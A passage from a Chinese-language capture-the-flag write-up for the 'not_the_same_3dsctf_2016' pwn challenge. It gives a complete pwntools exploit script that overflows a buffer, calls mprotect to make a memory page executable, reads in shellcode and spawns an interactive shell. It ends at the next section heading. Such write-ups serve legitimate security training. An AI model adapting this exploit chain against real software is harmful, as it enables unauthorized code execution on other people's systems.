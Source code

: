 故我们可以使用**与前一题几乎完全相同的exp**来getshell，只需要把csu里的gadget的地址稍微修改一下即可

构造exp如下：

```
from pwn import *

p = process('./not_the_same_3dsctf_2016')
e = ELF('./not_the_same_3dsctf_2016')

pop_ebx_esi_edi_ebp_ret = 0x80494dc
mprotect_addr = e.sym['mprotect']
read_addr = e.sym['read']
sc_addr = 0x80ea000
offset = 0x2d

payload1 = b'A'*offset + p32(mprotect_addr) + p32(pop_ebx_esi_edi_ebp_ret) + p32(sc_addr) + p32(0x100) + p32(0x7) + p32(0xdeadbeef)  + p32(read_addr) + p32(sc_addr) + p32(0) + p32(sc_addr) + p32(0x100)

payload2 = asm(shellcraft.sh())

p.sendline(payload1)
sleep(1)
p.sendline(payload2)
p.interactive() 
```

运行脚本即得shell

![image.png](img/ac3e1a54e7c0a8650330eb055d8a4c87.png)

# 0x00F.one_gadget - one_gadget
